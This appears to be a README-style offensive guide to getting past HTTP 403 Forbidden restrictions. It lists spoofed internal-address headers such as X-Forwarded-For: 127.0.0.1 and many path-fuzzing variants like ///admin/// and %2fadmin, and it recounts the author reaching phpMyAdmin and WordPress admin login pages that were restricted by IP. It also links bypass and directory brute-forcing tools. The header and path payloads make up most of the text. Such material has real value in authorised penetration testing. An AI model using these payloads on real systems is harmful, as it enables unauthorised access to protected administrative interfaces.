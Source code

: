 # Bypass 403 - Forbidden :no_entry:

- **Introduction**

Depending on the configuration made by the infrastructure analyst, there are some ways to get past the 403-forbidden error generally by configuring when you should not be allowed to access certain resources of that directory or file.

I created this quick document to demonstrate some techniques for this, including, I already used it and managed to pass the **403 error** and access database administrative login pages.

<p align="center">
  <img width="600" height="300" src="https://geekblog.com.br/wp-content/uploads/2021/03/1_MIrLuyiCDpdNbnFYxYlKtA-950x500.jpg">
</p>
<br>

## Some techniques :page_facing_up:


 #### <span style="color:red">Attention</span> :bangbang:

Before using the techniques below, it is worth changing the HTTP methods for each attempt, such as GET, POST, PATCH, OPTIONS, TRACE...

1. Method ***HTTP Headers Fuzzing***

In some cases, access to pages and private files can be done by changing the ***Header*** of the request and including an internal address, here are some examples;

- X-ProxyUser-Ip: 127.0.0.1
- Client-IP: 127.0.0.1
- Host: localhost
- X-Originating-IP: 127.0.0.1
- X-Forwarded-For: 127.0.0.1
- X-Remote-IP: 127.0.0.1
- X-Remote-Addr: 127.0.0.1
- X-Real-IP: 127.0.0.1

2. Method ***Path Fuzzing***

We can try to make some changes to the url, using special characters or including HTML encoding, exemples;

- test.com/admin/*
- test.com/*admin/
- test.com/%2fadmin/
- test.com%2fadmin%2f
- test.com/./admin/
- test.com//admin/./
- test.com///admin///
- test.com//admin//
- test.com/ADMIN/
- test.com/;/admin/
- test.com//;//admin/

## Real example 1 of Bypass

The example below is a bypass used in the phpmyadmin console, configured to be accessed only with specific IP x.x.x.x the context /phpmyadmin/

I made some attempts changing the context, example;

- /phpmyadmin/*
- /./phpmyadmin/
- //phpmyadmin//
- /*/phpmyadmin/

<p align="center">
  <img width="600" height="250" src="./img/403.JPG">
</p>

However, without success :(

After a few attempts to pass the 403, I tried changing the context to;

- **<span style="color:red;">///phpmyadmin///</span>**

<p align="center">
  <img width="600" height="250" src="./img/bypass.JPG">
</p>

In this case using 3 slashes (///), we managed to pass the 403 error and access the phpmyadmin login page. :ok_hand:

## Real example 2 of Bypass

In this example, we access the wordpress login panel using, in this case, 2 slashes (//).

In this url, we couldn't use the same context with 3 slashes, however, we managed using another change in the context.

<p align="center">
  <img width="600" height="250" src="./img/403-wp.JPG">
</p>

Using the context below
- **<span style="color:red;">//wp-admin//</span>**

<p align="center">
  <img width="600" height="400" src="./img/bypass-wp.JPG">
</p>
<br>

## Tool Tip :white_check_mark:

Some developers who created some tools to facilitate the identification of possible pages that we managed to pass the 403 error. The github project below (***iamj0ker***) was tested and we were able to validate some prohibited entries.

[github.com/iamj0ker/bypass-403](https://github.com/iamj0ker/bypass-403)

For those who use **Burpsuite Professional**, there is a plugin in the store to validate contexts with denied permissions, called **403 Bypasser**.

[403 Bypasser](https://portswigger.net/bappstore/444407b96d9c4de0adb7aed89e826122)

To find possible directories with 403 permissions, we can perform a bruteforce of directories and files using **Dirsearch**.

[Dirsearch](https://github.com/maurosoria/dirsearch)


<a href="https://asciinema.org/a/380112" target="_blank"><img src="https://asciinema.org/a/380112.svg" /></a>
